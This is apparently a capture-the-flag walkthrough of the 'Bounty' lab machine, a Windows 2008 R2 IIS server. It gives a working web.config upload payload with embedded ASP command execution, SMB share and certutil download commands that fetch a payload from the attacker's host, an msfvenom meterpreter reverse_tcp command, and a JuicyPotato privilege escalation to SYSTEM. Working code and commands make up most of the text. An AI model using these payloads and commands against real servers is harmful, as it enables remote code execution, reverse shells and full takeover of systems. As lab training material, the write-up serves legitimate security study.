 # bounty

`nmap` shows us that only port 80 is open, so lets begin enumerating that

![](../../.gitbook/assets/image%20%288%29%20%281%29%20%281%29%20%281%29.png)

shows us that we have an `aspx` files, and a folder which looks like, if we upload some thing it will go there. So lets upload a web.config with some `aspx` code in the end. This just runs a systeminfo command. I've tried with just `systeminfo` first, but it doesn't work but the below `cmd.exe /c systeminfo` worked

```text
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!--
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
        Set cmd1 = wShell1.Exec("cmd /c systeminfo")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-->
```

now, I'm going to make use of my default commands for doing file upload/download related things on windows

```text
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

net use x: \\10.10.14.25\kalishare /user:guest guest
copy x:\shell.exe c:\windows\temp\shell.exe
```

once we've run both these commands on the server using the above tactic. Replace the cmd.exe with the above net use command, and after that we can try to just run the reverse shell command with the payload we generate from msfvenom. the systeminfo command gives us the information about the webserver \(omitted unneeded info\)

```text
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Domain:                    WORKGROUP
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.93
```

so its a x64 and 2008 R2 server. lets generate the msfvenom payload now,

```text
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4242 -f exe -o shell.exe
```

we can use either a normal reverse shell or meterpreter shell here. I've used meterpreter since I find it a bit easy to manage and has some useful functionality like file upload etc.

```text
certutil -urlcache -split -f http://10.10.14.9/shell.exe shell.exe
```

this is the part where the payload is uploaded into the box using the code execution we got via the web.config. This should work with doing just a normal smb transfer as well. Once we upload the payload and got a call back on our python3 -m http.server 80, we can be sure that our payload is uploaded into the remote server.

now we can change the payload in our web.config file to just execute the shell we have uploaded.

Once we understand whats going on and how to exploit it, its a matter of bunch of commands to exploit this machine which I've summarised below

```text
# to server our payload files
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

# use the remote share - this command to be run in the web.config file
net use x: \\10.10.14.9\kalishare /user:guest guest

# in the web.config, run the shell.exe, this gives us reverse shell as merlin
cmd /c x:\\shell.exe

# get juicypotato.exe into our share
# now that we got a shell, run (also listen on 4242)
# we can use the same shell.exe and listen on same port, since the active session
# is not listening anymore on that port
x:\JuicyPotato.exe -t * -p x:\\shell.exe -l 9001

and we get a root shell
```

![](../../.gitbook/assets/image%20%289%29.png)

